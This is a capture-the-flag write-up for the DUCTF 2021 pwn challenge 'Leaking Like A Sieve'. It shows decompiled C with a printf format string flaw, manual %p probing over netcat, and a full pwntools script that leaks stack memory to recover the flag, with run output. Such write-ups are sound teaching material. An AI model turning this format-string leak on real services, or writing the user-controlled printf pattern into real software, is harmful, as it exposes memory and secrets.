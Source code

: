 # Leaking Like A Sieve
**Category: Pwn**

The binary's implementation can be seen in Ghidra:

```c
void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on theshell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

The flag is loaded into a variable, `local_38`. The program repeatedly prompts for a name, which gets printed back to us using `printf`. This looks like a classic format string vulnerability.

By setting our name to the `%p` format string specifier, we can read the values the stack is pointing to. For example: 

```
$ nc pwn-2021.duc.tf 31918
What is your name?
%p %p %p %p %p

Hello there, 0x7fffce77f640 0x7f53b3d3f8c0 (nil) 0xe 0x7f53b3f6b4c0
```

We can also use the offset notation to read the values at a specific offset:

```
$ nc pwn-2021.duc.tf 31918
What is your name?
%4$p

Hello there, 0xe
```

This program will loop through 20 offsets, and attempt to convert the hex it receives into text. All the readable text gets concatenated into our answer:

```python
#!/usr/bin/env python3

from pwn import *
import re

context.binary = ELF('./hellothere')

if args.REMOTE:
    io = remote('pwn-2021.duc.tf', 31918)
else:
    io = process(context.binary.path)

result = ''
for i in range(20):
    log.info(io.recvuntilS('?'))
    io.sendline(f'%{i}$p'.encode())
    io.recvlines(2)
    response = io.recvlineS()
    log.info(response)
    data = re.search(', (.*)', response).groups()[0][2:]
    try:
        # Attempt to convert the response from hex into text
        text = bytearray.fromhex(data).decode()
        result += text[::-1] # Reverse the string to account for endianness
    except:
        # Ignore anything pointed to by the stack that can't be read as text
        pass

print(result)
io.close()
```
```
$ ./exploit.py REMOTE
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] What is your name?
[*] Hello there, %0$p
[*]
    What is your name?
[*] Hello there, 0x7ffc93b21170
[*]
    What is your name?
[*] Hello there, 0x7f9aec5708c0
[*]
    What is your name?
[*] Hello there, (nil)
[*]
    What is your name?
[*] Hello there, 0xe
[*]
    What is your name?
[*] Hello there, 0x7f9aec79c4c0
... < snipped >
    What is your name?
[*] Hello there, 0xf53e0ab6bdf6d900
[*]
    What is your name?
[*] Hello there, 0x55abd74132a0
[*]
    What is your name?
[*] Hello there, 0x7f9aec1a4bf7
DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
[*] Closed connection to pwn-2021.duc.tf port 31918
```

`DUCTF{f0rm4t_5p3c1f13r_m3dsg!}`